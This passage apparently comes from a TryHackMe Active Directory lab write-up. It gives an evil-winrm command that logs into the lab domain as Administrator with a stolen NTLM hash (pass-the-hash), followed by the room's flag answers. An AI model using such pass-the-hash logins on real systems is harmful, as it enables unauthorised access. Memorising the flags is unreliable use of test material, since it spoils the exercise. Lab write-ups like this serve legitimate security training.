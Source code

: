 ## Flag Submission Panel

```bash
evil-winrm -i spookysec.local -u Administrator -H 0e0363213e37b94221497260b0bcb4fc
```

![Desktop View](/../assets/img/TryHackMe/AD%2010.png){: width="972" height="589" }
_Full screen width and center alignment_

![Desktop View](/../assets/img/TryHackMe/AD%2011.png){: width="972" height="589" }
_Full screen width and center alignment_

### Questions

1.  svc-admin
+ **TryHackMe{K3rb3r0s_Pr3_4uth}**
2. backup
+ **TryHackMe{B4ckM3UpSc0tty!}**
3. Administrator
+ **TryHackMe{4ctiveD1rectoryM4st3r}**